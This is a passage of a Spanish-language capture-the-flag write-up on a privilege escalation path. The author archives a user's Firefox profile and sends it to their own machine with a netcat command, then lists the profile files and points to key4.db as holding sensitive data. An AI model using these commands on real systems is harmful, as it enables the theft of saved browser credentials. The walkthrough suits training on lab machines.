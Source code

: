## Privilege Escalation (Second Method)

Listamos los `directorios ocultos` de `/home/ayush`

```
ayush@chaos:~$ ls -la
total 40
drwx------ 6 ayush ayush 4096 Oct 13 06:27 .
drwxr-xr-x 4 root  root  4096 Jun 30  2022 ..
drwxr-xr-x 2 root  root  4096 Jun 30  2022 .app
lrwxrwxrwx 1 root  root     9 Jul 12  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4096 Oct 13 06:27 .gnupg
drwx------ 3 ayush ayush 4096 Oct 13 07:19 mail
drwx------ 4 ayush ayush 4096 Jun 30  2022 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Oct 13 05:58 user.txt
```

Comprimimos todo el directorio de `Firefox` en un `.zip`

```
ayush@chaos:~$ zip -r mozilla.zip .mozilla
```

Nos ponemos en `escucha` con `netcat`

```
# nc -nlvp 1234 > mozilla.zip 
```

Nos `enviamos` el `.zip` al equipo.

```
ayush@chaos:~$ nc -w 3 10.10.16.28 1234 < mozilla.zip
```

Obtenemos el `.zip`

```
# nc -nlvp 1234 > mozilla.zip 
listening on [any] 1234 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.139.148] 53756
```

`Listamos` todo el `contenido`. Según este artículo [https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/specific-software-file-type-tricks/browser-artifacts#firefox](https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/specific-software-file-type-tricks/browser-artifacts#firefox), podemos obtener `información sensible` que se almacena en el archivo `key4.db`

```
#pwd
/home/justice-reaper/Desktop/Chaos/content/privesc/.mozilla/firefox/bzo7sjt1.default

# ls
 bookmarkbackups         sessionstore-backups    blocklist-plugins.json   content-prefs.sqlite   kinto.sqlite         pluginreg.dat              SiteSecurityServiceState.txt
 crashes                 storage                 blocklist.xml            cookies.sqlite         logins.json          prefs.js                   storage.sqlite
 datareporting           addons.json             cert9.db                 extensions.ini         mimeTypes.rdf        revocations.txt            times.json
 gmp                     AlternateServices.txt   cert_override.txt        extensions.json        permissions.sqlite   search.json.mozlz4         webappsstore.sqlite
 minidumps               blocklist-addons.json   compatibility.ini        formhistory.sqlite     pkcs11.txt           SecurityPreloadState.txt   xulstore.json
 saved-telemetry-pings   blocklist-gfx.json      containers.json          key4.db                places.sqlite        sessionCheckpoints.json   
```
